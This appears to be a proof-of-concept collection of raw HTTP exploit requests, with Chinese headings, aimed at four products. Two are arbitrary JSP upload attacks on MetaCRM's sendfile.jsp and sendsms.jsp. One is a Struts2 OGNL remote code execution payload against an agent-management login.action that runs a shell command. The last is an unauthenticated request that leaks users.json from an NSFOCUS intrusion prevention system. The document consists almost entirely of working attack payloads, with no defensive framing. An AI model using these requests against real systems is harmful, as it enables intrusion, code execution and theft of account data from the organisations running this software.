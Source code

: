 1. MetaCRM 客户关系管理系统 sendfile.jsp 任意文件上传漏洞
POST /business/common/importdata/sendfile.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpW22

------WebKitFormBoundary03rNBzFMIytvpW22
Content-Disposition: form-data; name="file"; filename="1.jsp"

<%out.println(new java.util.Random().nextInt(100));new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundary03rNBzFMIytvpW22--

2. MetaCRM 客户关系管理系统 sendsms.jsp 任意文件上传漏洞
POST /business/common/sms/sendsms.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpW22

------WebKitFormBoundary03rNBzFMIytvpW22
Content-Disposition: form-data; name="file"; filename="1.jsp"

<%out.println(new java.util.Random().nextInt(100));new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundary03rNBzFMIytvpW22--

3. AgentSyste代理商管理系统 login.action Struts2 远程代码执行漏洞
POST /login.action HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Firefox/123.0
Content-Type: application/x-www-form-urlencoded

debug=command&expression=%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22ls%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()

4. NIPS 绿盟网络入侵防护系统users.json敏感信息泄漏
GET /api/config/users.json HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
